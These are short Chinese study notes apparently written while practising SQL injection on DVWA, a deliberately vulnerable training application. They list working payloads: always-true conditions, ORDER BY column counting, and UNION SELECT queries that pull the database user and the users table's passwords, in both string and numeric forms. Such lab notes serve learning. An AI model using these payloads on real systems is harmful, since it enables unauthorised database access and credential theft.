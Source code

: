 <!--
title: 11-DVWA
sort:
-->

## SQL

### 字符注入

> 使用`1+2`测试输出
>
> `SELECT xx FROM x WHERE id = $id;`

1. `' or 1=1 or ' `

   > 假 真 假 -》全部

2. `' or '1'='1 `

   > 假 真 -》全部

3. `' or 1=1 #`

   > 假 真 注释‘

### 查询

1. 查询共有几行

   `1' order by 1 #`

   `1' order by 2 #`

   `1' order by 3 #`

   报错

2. 联合查询

   `1' union select 1,2 #`

   `1' union select user(),database() #`

   `1' union select user,password from users #`

## 数字注入

> 引号会被转义
>
> `1+2`对于算式会运算后进行查询

`1 union select user,password from use`
